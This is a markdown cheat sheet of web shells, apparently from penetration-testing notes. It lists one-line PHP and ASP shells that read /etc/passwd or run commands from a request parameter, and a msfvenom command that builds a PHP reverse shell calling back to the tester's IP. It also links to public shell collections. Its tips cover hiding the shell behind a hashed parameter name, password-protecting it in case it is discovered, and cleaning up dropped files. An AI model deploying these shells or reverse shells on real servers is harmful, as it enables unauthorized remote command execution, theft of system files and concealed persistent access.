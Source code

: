# Web Shells

| **Web Shell**                                                                           | **Description**                       |
| --------------------------------------------------------------------------------------- | ------------------------------------- |
| `<?php file_get_contents('/etc/passwd'); ?>`                                            | Basic PHP File Read                   |
| `<?php system('hostname'); ?>`                                                          | Basic PHP Command Execution           |
| `<?php system($_REQUEST['cmd']); ?>`                                                    | Basic PHP Web Shell                   |
| `<% eval request('cmd') %>`                                                             | Basic ASP Web Shell                   |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php`          | Generate PHP reverse shell            |
| [PHP Web Shell](https://github.com/Arrexel/phpbash)                                     | PHP Web Shell                         |
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)                 | PHP Reverse Shell                     |
| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) | List of Web Shells and Reverse Shells |

### Essential Considerations:

1. Use an MD5 hash for the parameter name on your web shell so it cannot be guessed and hijacked by an adjacent attacker:
   1. <pre><code><strong>&#x3C;?php
      </strong>system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
      ?>
      </code></pre>
2. Use a Password protected web shell in case it is discovered.&#x20;
3. Note where all files have been dropped, and ensure they are cleaned up afterwards.
